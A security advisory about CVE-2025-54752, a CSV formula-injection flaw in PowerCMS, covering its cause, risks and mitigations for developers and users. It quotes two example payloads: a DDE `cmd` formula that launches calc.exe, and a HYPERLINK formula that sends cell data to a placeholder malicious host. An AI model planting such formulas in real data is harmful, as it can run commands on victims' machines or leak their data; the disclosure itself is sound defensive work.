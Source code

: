 ## Security Alert: PowerCMS Vulnerability Exposes Users to Code Execution via CSV Files

A new security vulnerability has been identified in **PowerCMS** that could lead to the execution of malicious code on a user's local system. For organizations using **PowerCMS**, this presents a risk of data theft, system compromise, and significant business disruption if exploited. It's crucial for all stakeholders, from CEOs to IT teams, to understand this threat and take immediate action.

### Vulnerability Details

*   **CVE ID**: **CVE-2025-54752**
*   **Affected Software**: **PowerCMS**
*   **Affected Versions**: Multiple versions of **PowerCMS** are impacted. Specific version ranges will be detailed in official advisories as they become available.
*   **Technical Cause**: This vulnerability stems from **PowerCMS** improperly handling "formula elements" within CSV (Comma Separated Values) files. When data containing certain characters (like `=`, `+`, `-`, or `@`) is entered into **PowerCMS** and then exported as a CSV file, these characters are not properly neutralized. If a victim user then downloads and opens this specially crafted CSV file in a spreadsheet application (such as Microsoft Excel or Google Sheets), the application may interpret these unneutralized elements as executable formulas.

**Example Payload Concept**: An attacker could inject data similar to `=cmd|' /C calc.exe'!A1` or `=HYPERLINK("http://malicious.com/?data="&A1,"Click Me")` into a field within PowerCMS. When this data is exported and opened in a spreadsheet, the embedded command or hyperlink could be executed on the victim's machine.

### Risk Description

An attacker could exploit this vulnerability by submitting or manipulating data within **PowerCMS** that includes a malicious formula. If another user (the victim) then downloads this data as a CSV file and opens it, the embedded malicious code could execute on the victim's computer.

This could lead to:
*   **Arbitrary Code Execution**: Attackers could run malicious commands or software on the victim's machine.
*   **Data Theft**: Sensitive data stored locally on the victim's computer could be exfiltrated.
*   **System Compromise**: The victim's workstation could be further compromised, potentially leading to network access or the installation of malware (e.g., ransomware, spyware).
*   **Financial Loss**: Direct financial impact from data breaches or indirect losses due to operational downtime and remediation efforts.

The vulnerability has a CVSS base score of **4.8 MEDIUM**, indicating a significant level of risk that requires attention.

### Who is at Risk

Any organization or individual using **PowerCMS**, particularly those who allow users to input data into the system that is subsequently exported and shared as CSV files. Organizations where employees frequently download and open CSV reports or data extracts from **PowerCMS** are especially susceptible.

### Recommendations

**For PowerCMS Developers (or Maintainers):**
*   **Implement Robust Input Validation and Output Encoding**: Ensure that all user-supplied data, especially when intended for export, is thoroughly validated and sanitized. Specifically, characters that can initiate formulas (`=`, `+`, `-`, `@`) must be properly escaped or removed when generating CSV files.
*   **Review CSV Export Functionality**: Conduct a comprehensive review of all features that export data to CSV format to ensure they apply proper neutralization techniques.

**For PowerCMS Users and Administrators:**
*   **Apply Patches Immediately**: Monitor official advisories from PowerCMS for security updates that address **CVE-2025-54752**. Apply these patches to your **PowerCMS** instances as soon as they become available.
*   **Exercise Caution with CSV Files**: Educate your users to be cautious when opening CSV files, especially those from internal systems that contain unexpected or unusual data. Encourage them to use spreadsheet software in "protected view" or with macros disabled, if possible, for untrusted files.
*   **Review Data Entry Practices**: If possible, review and restrict input fields in **PowerCMS** that allow arbitrary text, particularly if that text is later exported to CSV.

### Reference Link

For more detailed technical information and ongoing updates, please refer to the official advisory:
[https://jvn.jp/en/vu/JVNVU93412964/](https://jvn.jp/en/vu/JVNVU93412964/)